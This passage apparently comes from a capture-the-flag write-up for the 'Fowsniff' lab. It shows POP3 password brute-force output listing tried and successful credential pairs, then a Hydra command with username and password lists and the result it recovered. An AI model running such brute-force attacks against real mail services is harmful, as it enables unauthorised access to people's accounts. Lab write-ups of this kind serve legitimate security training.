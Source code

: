 ~~~
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mauer:scoobydoo2', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mauer:carp4ever', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mauer:orlando12', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mauer:07011972', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mustikka:mailcall', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mustikka:bilbo101', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mustikka:apples01', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mustikka:skyler22', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mustikka:scoobydoo2', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mustikka:carp4ever', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mustikka:orlando12', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'mustikka:07011972', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'tegel:mailcall', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'tegel:bilbo101', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'tegel:apples01', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'tegel:skyler22', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'tegel:scoobydoo2', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'tegel:carp4ever', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'tegel:orlando12', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'tegel:07011972', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'baksteen:mailcall', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'baksteen:bilbo101', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'baksteen:apples01', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'baksteen:skyler22', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'baksteen:scoobydoo2', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'baksteen:carp4ever', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'baksteen:orlando12', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'baksteen:07011972', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'seina:mailcall', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'seina:bilbo101', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'seina:apples01', ''
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'seina:skyler22', ''
[+] 10.10.137.20:110      - 10.10.137.20:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'stone:mailcall', '-ERR [AUTH] Authentication failed.'
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'stone:bilbo101', '-ERR [AUTH] Authentication failed.'
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'stone:apples01', '-ERR [AUTH] Authentication failed.'
[-] 10.10.137.20:110      - 10.10.137.20:110 - Failed: 'stone:skyler22', ''
~~~

However, Hydra is faster:

~~~
kali@kali:/data/Fowsniff_CTF/files$ hydra -L usernames.txt -P passwords.txt pop3://10.10.137.20
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-03 19:05:30
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 72 login tries (l:9/p:8), ~5 tries per task
[DATA] attacking pop3://10.10.137.20:110/
[110][pop3] host: 10.10.137.20   login: seina   password: scoobydoo2
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-03 19:06:24
~~~
